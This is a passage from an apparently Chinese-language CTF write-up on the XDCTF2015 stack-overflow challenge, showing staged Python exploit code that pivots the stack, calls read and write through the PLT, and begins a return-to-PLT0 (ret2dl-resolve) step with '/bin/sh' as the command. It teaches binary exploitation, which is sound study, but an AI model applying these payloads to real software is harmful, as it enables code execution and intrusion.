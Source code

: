 ```

io.read_until('Welcome to XDCTF2015~!\n')
# io.gdb_hint([0x80484bd])

buf1  = 'A' * offset
buf1 += l32(addr_plt_read)
buf1 += l32(pppop_ret)
buf1 += l32(0)
buf1 += l32(base_stage)
buf1 += l32(100)
buf1 += l32(pop_ebp_ret)
buf1 += l32(base_stage)
buf1 += l32(leave_ret)
io.writeline(buf1)

cmd = "/bin/sh"

buf2 = 'AAAA'
buf2 += l32(addr_plt_write)
buf2 += 'AAAA'
buf2 += l32(1)
buf2 += l32(base_stage+80)
buf2 += l32(len(cmd))
buf2 += 'A' * (80-len(buf2))
buf2 += cmd + '\x00'
buf2 += 'A' * (100-len(buf2))
io.writeline(buf2)
io.interact()

```

最后会把我们输入的`cmd`打印出来

![Alt text](http://drops.javaweb.org/uploads/images/7c690f7a0452e2fb0bbe64fd021674947c37a84c.jpg)

**stage2**

这次我们控制EIP返回到`PLT0`，要带上`index_offset`。这里我们修改一下`buf2`

```
...
cmd = "/bin/sh"
addr_plt_start = 0x8048370 # objdump -d -j.plt bof
index_offset   = 0x20

buf2 = 'AAAA'
buf2 += l32(addr_plt_start)
buf2 += l32(index_offset)
buf2 += 'AAAA'
buf2 += l32(1)
buf2 += l32(base_stage+80)
buf2 += l32(len(cmd))
buf2 += 'A' * (80-len(buf2))
buf2 += cmd + '\x00'
buf2 += 'A' * (100-len(buf2))
io.writeline(buf2)
io.interact()

```
